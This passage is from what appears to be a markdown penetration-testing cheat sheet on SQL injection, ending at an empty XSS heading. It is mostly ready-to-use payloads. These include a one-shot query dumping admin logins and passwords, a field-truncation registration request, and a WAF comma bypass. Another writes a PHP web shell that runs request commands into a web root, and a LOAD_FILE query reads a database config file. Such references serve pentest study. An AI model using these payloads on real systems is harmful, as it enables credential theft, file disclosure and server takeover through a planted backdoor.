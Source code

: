```
id=1' UNION SELECT 1,(SELECT (@a) FROM (SELECT (@a:=0x00),(SELECT (@a) FROM (mytable.users) WHERE (@a) IN (@a:=concat(@a,':::',id,':::',login,':::',password)) AND is_admin='1'))a);-- -
```

* [defcon.ru/web-security/2320/](https://defcon.ru/web-security/2320/)
* [www.securityidiots.com/Web-Pentest/SQL-Injection/Dump-in-One-Shot-part-1.html](http://www.securityidiots.com/Web-Pentest/SQL-Injection/Dump-in-One-Shot-part-1.html)
* [dba.stackexchange.com/questions/4169/how-to-use-variables-inside-a-select-sql-server](https://dba.stackexchange.com/questions/4169/how-to-use-variables-inside-a-select-sql-server)
* [www.mssqltips.com/sqlservertip/6038/sql-server-derived-table-example/](https://www.mssqltips.com/sqlservertip/6038/sql-server-derived-table-example/)



### Truncation Attack

```
POST /index.php HTTP/1.1
Host: 127.0.0.1

name=snovvcrash&email=admin%example.com++++++++++11&password=qwe12345
```

* [www.youtube.com/watch?v=F1Tm4b57ors](https://www.youtube.com/watch?v=F1Tm4b57ors)



### Commas blocked by WAF

```
id=-1' UNION SELECT * FROM (SELECT 1)a JOIN (SELECT table_name from mysql.innodb_table_stats)b ON 1=1#
```



### Write File

```
id=1' UNION ALL SELECT 1,2,3,4,"<?php if(isset($_REQUEST['c'])){system($_REQUEST['c'].' 2>&1' );} ?>",6 INTO OUTFILE 'C:\\Inetpub\\wwwroot\\backdoor.php';#
```



### Read File

```
id=1' UNION ALL SELECT LOAD_FILE('c:\\xampp\\htdocs\\admin\\db.php'),2,3-- -
```




## XSS



### Redirections


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 space before)